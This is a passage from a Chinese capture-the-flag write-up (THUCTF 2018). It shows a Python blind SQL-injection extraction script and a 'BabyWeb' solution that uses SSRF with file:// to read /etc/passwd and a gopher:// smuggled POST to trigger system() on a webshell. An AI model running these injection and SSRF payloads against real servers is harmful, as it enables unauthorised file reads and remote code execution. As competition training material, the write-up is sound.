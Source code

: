 ```Python
        # flag: select wUpWAcapJIxP from PIsAukBsoucg
        "\"username=shyotest'and(not(''=(select('a')from(PIsAukBsoucg)where(left(wUpWAcapJIxP,length(" + s + "))=" + s + "))))%23"
        
        + "&password=12345678&_xsrf=2%7Ce8d24e53%7Ca05ca14878aee4bdf7f1831ba24a3201%7C1537843349\" --compressed --silent | grep 'mdl-chip__text'").read()
    # print(len(s), s)
    return len(s) == 0 or re.search(r"Subquery returns more than 1 row", s)

def search(s):
    for i in list(range(ord('a'), ord('z') + 1)) + list(range(ord('A'), ord('Z') + 1)) + list(range(ord('0'), ord('9') + 1)) + [ord('_'), ord('{'), ord('}'), ord('@'), ord('.')]:
        if i == ord(' '): continue
        ss = s + chr(i)

        if exist_begin_with(ss):
            print(ss)
            search(ss)

search('')
```

## BabyWeb
出题人良心的把默认主页的 php 源代码打出来了，是个拿 `curl` 访问任意 url 并回传结果的。`curl` 支持的协议很多，例如
```
http://babyweb.thuctf2018.game.redbud.info:8016/?url=file:///etc/passwd
```
就能拿到 `/etc/passwd`。

观察 `robots.txt` 发现它点到了另一个文件 `webshe11111111.php`。看名字是个  webshell，把它用前面的 `curl` 打出来
```
http://babyweb.thuctf2018.game.redbud.info:8016/?url=file:///var/www/html/webshe11111111.php
```
发现只要 `$_SERVER['REMOTE_ADDR'] === 127.0.0.1` 且 `$_POST['admin'] === 'h1admin'` 就行了。
我们构造 `POST` 请求，转化为 `gopher` 协议，并用前面调用 `curl` 的 `php` 去在服务器上本地执行它

```Python
a = """POST /webshe11111111.php HTTP/1.1
Host: localhost:12345
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 34
Content-Type: application/x-www-form-urlencoded

admin=h1admin&hacker=system('ls');
"""
import urllib
tmp = urllib.quote(a)
new = tmp.replace("%0A","%0D%0A")
result = "gopher://127.0.0.1:80/_"+urllib.quote(new)
result = "http://babyweb.thuctf2018.game.redbud.info:8016/?url=" + result
print(result)
``` 
